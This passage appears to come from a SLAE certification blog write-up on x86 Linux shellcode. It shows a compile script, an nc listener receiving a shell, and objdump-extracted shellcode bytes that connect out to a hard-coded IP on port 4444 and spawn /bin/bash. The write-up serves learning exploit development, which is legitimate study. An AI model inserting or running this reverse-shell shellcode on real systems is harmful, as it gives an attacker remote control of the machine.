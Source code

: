 			EBX address location to /bin/bash
			ECX and EDX are set to zero as there is no arguments / environmental variables



**Practical**

A simple compile script is used to compile and link .asm file , once successfull ,we can execute it and connect to it

	toor@ubuntu:~/Desktop/slae/Assignments/1$ cat compile.sh
	#!/bin/bash
	echo 'Assembling with nasm'
	nasm -f elf32 -o $1.o $1.asm
	echo 'Success, Now Linking'
	ld -o $1 $1.o
	echo 'Go Ahead, may the force be with you'
	toor@ubuntu:~/Desktop/slae/Assignments/1$ 
	
	toor@ubuntu:~/Desktop/slae/Assignments/1$ ./compile.sh rev
	Assembling with nasm
	Success, Now Linking
	Go Ahead, may the force be with you
	toor@ubuntu:~/Desktop/slae/Assignments/1$ ./rev


	toor@ubuntu:~/Desktop/slae/Assignments/2$ nc -lvp 4444
	listening on [any] 4444 ...
	connect to [192.168.230.169] from ubuntu.local [192.168.230.169] 60262
	id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	echo $SHELL
	/bin/bash


**SHELLCODE**

Using objdump to extract shellcode

	toor@ubuntu:~/Desktop/slae/Assignments/1$ objdump -d ./bind|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'	"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x50\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xb3\x01\xcd\x80\x89\xc7\x52\x52\x68\xc0\xa8\xe6\xa9\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x31\xc0\x31\xdb\x6a\x10\x56\x57\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xfb\x31\xc9\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
	toor@ubuntu:~/Desktop/slae/Assignments/1$


**Wrapper script to bind custom port**

	Since the port 4444 and the ip 192.168.230.169 is harcoded in the script we have to create a custom shellcode with customisable portnumber.

	Script logic is user port number and the ip  input is converted to network byte order and swapped with 4444 and 192.168.230.169 representation.

	Refer:port_ip_builder.py

**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
